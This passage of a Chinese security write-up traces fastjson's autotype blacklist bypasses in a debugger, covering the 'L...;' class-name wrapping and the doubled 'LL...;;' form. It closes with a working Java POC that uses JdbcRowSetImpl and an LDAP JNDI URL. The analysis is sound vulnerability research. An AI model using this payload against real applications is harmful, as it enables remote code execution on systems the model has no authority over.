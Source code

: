 这是我下的断点（随便下的，看哪里顺眼就往哪下）

![image-20220922162256476](img/image-20220922162256476.png)

基本可以看懂逻辑了。还是跟踪一下看看

![image-20220922162355270](img/image-20220922162355270.png)

直接来到这里，已经开启`autotype`就直接走这里了，但是由于白名单是空的，所以来判断黑名单了，再次被匹配到，直接抛出异常。

![image-20220922162527125](img/image-20220922162527125.png)

再次修改POC，这次将类的写法换成`Lcom.sun.rowset.JdbcRowSetImpl;`

![image-20220922162705443](img/image-20220922162705443.png)

再次调试，这次前面重复的就不跟了，直接到`Lcom.sun.rowset.JdbcRowSetImpl;`不匹配黑名单后面

![image-20220922163134165](img/image-20220922163134165.png)

这里依旧是进入判断，继续执行，跟进`TypeUtils.loadClass`中

![image-20220922163403029](img/image-20220922163403029.png)

可以发现这里有一个非常契合我们POC中的payload的点

```java
if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
```

`className`是以`L`开头，以`;`结尾那么将它使用`substring`方法截取一下，真有趣，不知道是不是为了这个漏洞专门写的方法哈哈哈

![image-20220922163701901](img/image-20220922163701901.png)

又重新得到了`com.sun.rowset.JdbcRowSetImpl`再去`loadClass`，就可以愉快的进行后面的步骤了

## 1.2.25~1.2.42

这个版本修复了1.2.41时的漏洞，具体修复情况看官方修改的代码

![image-20220923103150619](img/image-20220923103150619.png)

再一次进行了`loadClass`，这个过滤比较无语，在写一次就能绕过，也就是双写`L;`

POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```
